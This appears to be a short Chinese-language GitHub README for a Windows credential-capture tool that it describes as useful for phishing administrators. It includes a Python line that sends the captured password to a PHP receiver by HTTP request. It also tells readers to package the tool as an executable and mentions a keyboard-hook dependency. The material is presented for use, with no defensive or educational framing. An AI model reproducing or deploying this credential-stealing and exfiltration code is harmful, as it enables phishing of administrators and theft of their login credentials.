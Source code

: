 ### windows凭证捕获 ##
可用于钓鱼管理员,最后脚本会将捕获到的:username和password

通过请求指定的php来接收密码
```python
rqt=requests.get(url='http://127.0.0.1/jieshou.php?password={}'.format(str(j)),headers={'user-agent':'nb'})
```

请自行打包exe

效果图如下：
![](https://s2.ax1x.com/2019/08/13/mpheud.gif)

由于要安装pyHook库，我这里直接上传了

不要去lfd下，那个只要窗体不是Unicode编码就直接报错了
https://www.lfd.uci.edu/~gohlke/pythonlibs/

